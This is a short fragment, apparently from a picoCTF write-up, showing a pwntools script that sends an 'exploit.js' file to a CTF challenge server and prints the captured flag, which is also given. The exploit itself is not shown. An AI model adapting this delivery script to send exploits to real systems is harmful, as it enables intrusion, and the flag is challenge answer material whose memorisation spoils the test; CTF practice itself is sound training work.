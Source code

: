 ```python
from pwn import *

with open("exploit.js", "rb") as f:
    exploit = f.read()

p = remote('mercury.picoctf.net', 48700)
p.sendlineafter(b'5k:', str(len(exploit)).encode())
p.sendlineafter(b'please!!\n', exploit)

p.recvuntil(b"Stdout b'")
flag = p.recvuntil(b"\\")[:-1]
print(flag.decode())
```

And we get the flag:

```
picoCTF{vr00m_vr00m_48f07b402a4020e0}
```
